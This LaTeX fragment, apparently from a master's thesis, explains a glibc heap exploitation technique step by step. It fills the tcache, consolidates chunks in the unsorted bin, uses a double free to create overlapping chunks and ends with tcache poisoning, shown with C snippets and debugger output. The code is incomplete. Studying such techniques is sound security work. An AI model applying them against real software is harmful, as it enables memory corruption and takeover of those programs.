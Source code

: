 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
    free(x[i]);
}
\end{lstlisting}

Now the tcahe is full. We perform the free function on the ‘prev’ and ‘a’.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’. Attention to the size and the address of the chunk :

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
  \caption{a and prev pointers}
\end{figure}

In the next step with the help of UAF and double-free attack we put back the victim in the \tch{}

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}

The above procedure has another result too, now we have two chunks that overlap too. For the rest of the attack, we perform a \tch{} poisoning. First, define a victim and overwrite the fd pointer in a way pointing to the target, then two allocations. The last allocation has control over the target
\end{document}
